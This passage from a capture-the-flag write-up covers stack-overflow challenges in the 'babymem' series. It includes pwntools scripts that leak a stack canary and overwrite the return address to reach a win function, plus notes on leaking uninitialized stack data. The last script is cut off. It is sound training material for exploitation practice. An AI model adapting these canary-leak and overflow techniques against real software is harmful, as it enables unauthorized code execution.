 ```python
padding = b'A' * (88 - len(header))
buf_2 = header + padding + b'B'  # The LSB of the canary is always 0x00. Hence, we need to overwrite it in order to see the result. 

p.sendline(str(len(buf_2)))
p.send(buf_2)

while True:
    data = p.recvline()
    if buf_2 in data:
        start_index = data.find(buf_2) + len(buf_2) - 1  # -1 As we also take the fake "B" LSB
        canary = struct.unpack('<Q', data[start_index: start_index + 8])[0] & 0xffffffffffffff00
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Canary value:{hex(canary)}')
        break

buf_3 = b'C' * 88 + struct.pack('<Q', canary) + b'D' * 8 + struct.pack('<H', 0xb3c6)
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```

## Challenge 13

Vuln - uninitialized data. \
`verify_flag` function left its stack frame in non clean state.

Therefore, the flag resides at a constant address within the stack, during the call of challenge - and we can easily leak it by setting a non null-terminated string. 

## Challenge 14

Similar to challenge 12, but this time the print method is limited by `.393%s` delimiter - hence it won’t be able to leak extra canary bytes as in the previous trick.

However, notice the input buffer isn’t initialized to 0. Hence, we may leak some stack values in case we would supply 0-length input. 

At the second stack frame opening, we can see the canary resides within offset of 0x18 bytes - as the input buffer wasn’t initialized to 0, and got junk from the previous calls :)

Hence, by filling only 0x18 bytes, we would be able to leak the canary value.


```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/babymem_level14.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']
addr_win = elf.symbols['win_authed']

p = process(BINARY)

header = b'REPEAT'
buf_1 = header
p.sendline(str(len(buf_1)))
p.send(buf_1)

padding = b'A' * (0x18 - len(header))
buf_2 = header + padding + b'B'  # The LSB of the canary is always 0x00. Hence, we need to overwrite it in order to see the result. 

```